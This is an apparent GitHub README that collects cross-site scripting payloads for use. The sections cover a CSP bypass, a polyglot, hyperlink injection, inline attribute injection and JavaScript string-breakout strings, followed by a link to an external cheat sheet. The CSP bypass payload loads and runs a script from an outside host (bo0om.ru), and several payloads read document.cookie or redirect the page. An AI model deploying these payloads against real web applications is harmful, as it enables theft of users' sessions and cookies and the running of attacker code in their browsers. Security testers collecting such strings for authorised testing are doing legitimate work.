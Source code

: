 # XSS PAYLOAD 

### CSP BYPASS:

    <script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>


### POLYGLOT:

    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>


### HYPERLINK TAG INJECTION:

    javascript:alert(1)
    
    javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")
    
    javascript://%250Aalert(document.cookie)
    
    javascripT://https://google.com%0aalert(1);//https://google.com
    
    /x:1/:///%01javascript:alert(document.cookie)/


### INLINE HTML INJECTION WITHOUT TAG BREAK:
  
  " onclick=alert(1)//">click
  
  " autofocus onfocus=alert(1) "
  
  " onfocus=prompt(1) autofocus fragment="
  
  " onmouseover="confirm(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"


### JAVASCRIPT INJECTION:

    '?prompt`1`?'
    
    "])},alert(1));(function xss() {//
    
    ""});});});alert(1);$('a').each(function(i){$(this).click(function(event){x({y
    
    "}]}';alert(1);{{'
    
    11111';\u006F\u006E\u0065rror=\u0063onfirm; throw'1
    
    \');confirm(1);//
    
    x");$=alert, $(1);//
    
    '|alert(1)|'
    
    '*prompt(1)*'
    
    "; ||confirm('XSS') || "
    
    "-alert(1)-"
    
    \'-alert(1)};{//
    
    "'-alert(1)-'"
    
    \u0027-confirm`1`-\u0027 
    
    '}};alert(1);{{'



### xss payload

url: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

:+100:
